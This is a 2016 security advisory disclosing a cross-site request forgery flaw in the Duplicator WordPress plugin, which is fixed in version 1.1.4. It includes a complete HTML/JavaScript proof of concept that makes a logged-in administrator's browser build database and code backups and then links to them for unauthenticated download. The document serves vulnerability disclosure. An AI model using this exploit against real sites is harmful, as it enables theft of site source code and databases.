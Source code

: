 Duplicator Wordpress Plugin Code And Database Dump Via CSRF Vulnerability
-----------------------------------------------------------------------------------------------
 
Product: Duplicator WordPress Plugin
Vendor: Life In The Grid
Tested Versions: 1.1.0, 1.2.0
Other Vulnerable Versions: Prior versions may also be affected
CVE Reference: Pending
Risk Level: High
CVSSv3 Base Score: AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:N/A:N
 
-----------------------------------------------------------------------------------------------
 
RatioSec Research has discovered a cross-site request forgery
vulnerability in Duplicator WordPress Plugin which can be exploited to
generate and disclose the WordPress database and code backups.
 
The application allows users to perform certain actions via HTTP
requests without performing proper checks to verify the requests
validity. An authenticated user's browser can be forced to generate
and disclose the WordPress database and code backups via the
vulnerable backup function by tricking the user into visiting a
malicious web site.
 
-----------------------------------------------------------------------------------------------
 
Proof of Concept
 
The proof of concept HTML page, if visited by a logged-in
administrative user, raises two requests
(`/wp-admin/admin.php?page=duplicator&tab=new2` and
`/wp-admin/admin-ajax.php?action=duplicator_package_build`) forcing
the creation of the WordPress source code, database, and install
scripts backup in the paths
`/wp-snapshots/ratiosec_ratiosec_archive.zip`,
`/wp-snapshots/ratiosec_ratiosec_database.sql`, and
`/wp-snapshots/ratiosec_ratiosec_installer.php`. Once generated, the
backup archives can be downloaded by the attacker with no
authentication.
 
See the proof of concept code on the RatioSec Research website.
http://www.ratiosec.com/2016/duplicator-wordpress-plugin-source-database-disclosure-via-csrf/
 
-----------------------------------------------------------------------------------------------
 
Solution
 
Update to version 1.1.4.
 
-----------------------------------------------------------------------------------------------
 
Timeline
 
- First contact: 29th January, 2016
- Disclosure: 29th January, 2016. Preliminary date set to 19th, February 2016.
- Postponed: Date pushed back to 19th February, 2016
- Fixed in GIT: 6th February, 2016
- Fixed Release: 9th February, 2016
- Advisory Publication: 9th February, 2016
 
-----------------------------------------------------------------------------------------------
 
Advisory URL
 
http://www.ratiosec.com/2016/duplicator-wordpress-plugin-source-database-disclosure-via-csrf/
 
RatioSec Research
 
Mail: research at ratiosec dot com
Web: http://www.ratiosec.com/
Twitter: https://twitter.com/ratio_sec
 
 
 
 
==============
POC:
 
<html>
  <body>
    <script>
 
      wordpress_root = "http://localhost/wordpress";
 
      function submitRequest1()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", wordpress_root + "/wp-admin/admin.php?page=duplicator&tab=new2", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-GB,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.withCredentials = true;
        var body = "action=&package-hash=ratiosec&package-name=ratiosec&package-notes=&archive-format=ZIP&filter-dirs=&filter-exts=&dbhost=&dbport=&dbname=&dbuser=&url-new=";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
      }
      function submitRequest2()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("GET", wordpress_root + "/wp-admin/admin-ajax.php?action=duplicator_package_build", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-GB,en;q=0.5");
        xhr.withCredentials = true;
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
      }
      function printLinks()
      {
 
    var dumps = ["ratiosec_ratiosec_archive.zip", "ratiosec_ratiosec_database.sql", "ratiosec_ratiosec_installer.php"];
    for(var a in dumps) {
        var url = wordpress_root + '/wp-snapshots/' + dumps[a];
        document.body.innerHTML += '<br/><a href="' + url +  '">' + url + '</a>';
    };
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest1();setTimeout(submitRequest2,2000);setTimeout(printLinks,2500);" />
    </form>
    <p>Submit the CSRF request and wait few seconds to see below the public links of the dumps.</p>
  </body>
</html>
 
#  DediGalihWisnumurti Team [2016-02-16]  #
